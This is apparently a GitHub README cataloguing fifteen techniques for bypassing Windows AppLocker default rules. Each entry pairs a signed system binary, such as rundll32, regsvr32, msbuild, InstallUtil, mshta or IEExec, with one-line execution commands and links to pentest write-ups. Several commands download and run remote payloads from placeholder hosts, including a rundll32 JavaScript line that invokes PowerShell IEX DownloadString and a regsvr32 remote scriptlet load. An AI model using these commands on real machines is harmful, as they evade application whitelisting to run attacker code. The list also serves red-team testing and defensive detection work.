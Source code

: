 # Ultimate AppLocker ByPass List
The goal of this repository is to document the most common techniques to bypass AppLocker. 
These bypass techniques are based on the "Create Default Rules" in AppLocker.
Please contribute and do point out errors or resources I have forgotten.


1. **Rundll32.exe**

Examples:
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
rundll32 shell32.dll,Control_RunDLL payload.dll

Links:
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7


2. **Regsvr32.exe**

Examples:
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

Links:
https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302


3. **Msbuild.exe**

Examples:
msbuild.exe pshell.xml

Links:
https://gist.github.com/subTee/6b236083da2fd6ddff216e434f257614
http://subt0x10.blogspot.no/2017/04/bypassing-application-whitelisting.html
https://github.com/Cn33liz/MSBuildShell
https://github.com/Cn33liz/MS17-012
https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/
https://www.youtube.com/watch?v=aSDEAPXaz28


4. **Regsvcs.exe**

Examples:
regsvcs.exe /U regsvcs.dll
regsvcs.exe regsvcs.dll

Links:
https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
https://gist.githubusercontent.com/subTee/fb09ef511e592e6f7993/raw/e9b28e7955a5646672267a61e9685fc5a4ab5f2a/regsvcs.cs


5. **Regasm.exe**

Examples:
regasm.exe /U regsvcs.dll
regasm.exe regsvcs.dll

Links:
https://pentestlab.blog/2017/05/19/applocker-bypass-regasm-and-regsvcs/
https://gist.githubusercontent.com/subTee/fb09ef511e592e6f7993/raw/e9b28e7955a5646672267a61e9685fc5a4ab5f2a/regsvcs.cs


6. **Bginfo.exe**

Examples:
bginfo.exe bginfo.bgi /popup /nolicprompt

Links:
https://msitpros.com/?p=3831
https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
https://msitpros.com/?p=3860


7. **InstallUtil.exe**

Examples:
InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

Links:
https://github.com/subTee/AllTheThings
https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12


8. **MSDT.exe**

Examples:
Open .diagcab package

Links:
https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/


9. **mshta.exe**

Examples:
mshta.exe evilfile.hta

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4


10. **Execute .Bat**

Examples:
cmd.exe /k < script.txt

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3


11. **Execute .PS1**

Examples:
Get-Content script.txt | iex

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3


12. **Execute .VBS**

Examples:
cscript.exe //E:vbscript script.txt

Links:
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_3


13. **PresentationHost.exe**

Examples:

Links:
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf


14. **dfsvc.exe**

Examples:

Links:
https://raw.githubusercontent.com/subTee/ShmooCon-2015/master/ShmooCon-2015-Simple-WLEvasion.pdf


15. **IEExec.exe**

Examples:
ieexec.exe http://x.x.x.x:8080/bypass.exe

Links:
https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/